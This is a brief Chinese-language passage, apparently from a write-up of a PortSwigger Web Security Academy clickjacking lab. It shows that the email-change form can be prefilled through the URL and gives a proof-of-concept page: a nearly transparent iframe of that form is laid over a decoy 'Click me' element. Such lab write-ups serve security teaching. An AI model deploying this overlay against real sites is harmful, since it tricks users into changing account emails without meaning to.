 修改email界面可以通过url控制输入框的预填充值

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/点击劫持/images/64C7AD97E2DE4D789CDB6C1CEFC3B79Cclipboard.png)



构造poc进行点击劫持：

```javascript
<style>
   iframe {
       position:relative;
       width:500px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   div {
       position:absolute;
       top:470px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://acea1f8f1fc2b1dc80ed062a00db004e.web-security-academy.net/email?email=123@qq.com"></iframe>
```

